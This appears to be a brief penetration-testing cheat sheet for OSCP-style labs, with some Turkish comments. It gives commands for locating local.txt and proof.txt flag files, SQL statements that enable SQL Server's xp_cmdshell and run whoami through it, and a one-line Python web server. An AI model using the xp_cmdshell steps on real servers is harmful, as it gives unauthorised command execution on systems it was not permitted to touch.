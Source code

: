 # Flag Finderz

- find / "local.txt" 2>/dev/null | grep "local.txt"
- find / "proof.txt" 2>/dev/null | grep "proof.txt"
- dir C:\ /s /b | findstr "local.txt"
- dir C:\ /s /b | findstr "proof.txt"


# xpcmdshell

-- SQL Server'da xp_cmdshell özelliğini aktif etmek

- EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
- EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;

-- xp_cmdshell ile whoami komutunu çalıştırmak
- EXEC xp_cmdshell 'whoami';


# Python Web Server

- python3 -m http.server 8000
